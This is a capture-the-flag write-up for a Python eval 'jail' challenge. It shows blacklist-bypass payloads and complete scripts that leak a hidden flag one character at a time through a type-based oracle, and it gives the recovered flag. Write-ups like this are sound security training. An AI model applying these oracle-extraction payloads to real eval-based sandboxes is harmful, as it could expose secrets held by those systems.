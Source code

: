 # Typeit2 - JAIL (500 points)
> Note: inintended solution
- letters are blacklisted 
```
BLACKLIST = '"%&\',-/_:;@\\`{|}~*<=>[] \t\n\r\x0b\x0c'
```
- the main functionality of the program is to print the type of the input with only type in the builtins and the flag
```
print(eval(f"{func.__name__}({s})", {"__builtins__": {func.__name__: func}, "flag": FLAG}))
```
- whitelisted caracters that might be interesting are ``a-zA-z and ()``

## solution
- preparation
    - ``encode()`` funtion encode the flag (to bytes)
    - ``count()`` function return the count of a letter in a string or bytes
    - ``index()`` and ``rindex()`` functions to get the first/last index of the caracter in string  
- we can now create our payload
```py
flag.encode().count(i)is(j)and(0)  #get the count
flag.encode().index(i)is(j)and(0)  #get the first index of letter
flag.encode().rindex(i)is(j)and(0) #get the last index of letter
```
- we make a loop from 32 to 127 and test all caracters:
    - if the result is ``<class 'int'>`` then we get the right count/index/rindex. of the caracter==chr(i)
    - if the result is ``<class 'bool'>`` then we still have to search the next caracter

### count function
```py
def count_letters():
	l=[]
	for i in range(32,127):
		j=0
		m=False
		print("i = ",i)
		while m==False:
			p="flag.encode().count({i})is({j})and(0)".format(i=i,j=j)
			chall.sendline(p)
			
			chall.recvline()
			s=str(chall.recvline())[2:15]
			#print(s)
			
			#s=str(chall.recvline())[10:23]
			if s=="<class 'int'>":
				if j!=0:
					l.append([chr(i),j])
				m=True
			else:
				j+=1
	return l # a list of caracters with their count
```
### length of the flag
- we can calculate now the length of the flag
```py
def get_flag_length(l):
	k=0
	for i in l:
		k+=i[1]
	return k
```
### search for caracters index and construct the flag
```py
def construct_flag(counted_letters,flag_length):
	flag='*'*flag_length

	print("first index")
	for i in counted_letters:
		j=0
		m=False
		print("letter : ",i[0])
		for j in range(0,flag_length):
			p="flag.encode().index({carac})is({j})and(0)".format(carac=ord(i[0]),j=j)
			chall.sendline(p)
			
			chall.recvline()
			s=str(chall.recvline())[2:15]			
			#s=str(chall.recvline())[10:23]
			if s=="<class 'int'>":
				flag=flag[:j]+i[0]+flag[(j+1):]
				print(flag)
				break
			else:
				j+=1

	print("Last index")
	for i in counted_letters:
		j=0
		m=False
		if i[1]>=2:
			print("letter : ",i[0])
			for j in range(0,flag_length):
				p="flag.encode().rindex({carac})is({j})and(0)".format(carac=ord(i[0]),j=j)
				chall.sendline(p)
				
				chall.recvline()
				s=str(chall.recvline())[2:15]				
				#s=str(chall.recvline())[10:23]
				if s=="<class 'int'>":
					flag=flag[:j]+i[0]+flag[(j+1):]
					print(flag)
					break
				else:
					j+=1
	return flag
```


- we combine all three functions in [script.py](./script.py)
> the result (the flag) not be with all it's caracters because some caracters have count >2 and we can have only first and last caracter index but we can guess the index of the rest

## Flag
``CyberErudites{ERRRROR_B4$E3_FTW!!!!}``